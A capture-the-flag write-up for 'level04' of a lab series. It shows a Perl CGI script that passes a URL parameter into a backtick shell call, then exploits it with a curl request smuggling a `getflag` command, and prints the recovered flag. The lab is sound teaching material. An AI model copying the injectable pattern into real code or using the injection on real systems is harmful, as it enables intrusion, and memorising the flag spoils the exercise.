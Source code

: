 # level04 solve

To begin, when we get logged and trying to see if we got the file we can see we have one file ` level04.pl `

```
$ ls
> level04.pl
```

It's a <a href="https://fr.wikipedia.org/wiki/Perl_(langage)">Perl</a> file, so we decide to check what he contain.

```
$ cat level04.pl  
```
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
   $y = $_[0];
   print `echo $y 2>&1`;
 }
x(param("x"));
```

With that we can see 3 important elements :

```
- localhost:4747 -> url, so we can try to call the website with curl

- print `echo $y 2>&1\`; -> will be breakable with a code injection cause of ` character

- x(param("x")); -> parameter who can contain a value
```

Ok let's do this

```
$ curl localhost:4747?x=\`getflag\`
> ne2searoevaevoem4ov4ar8ap
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level03">previous level</a> - <a href="../../level05">next level</a>

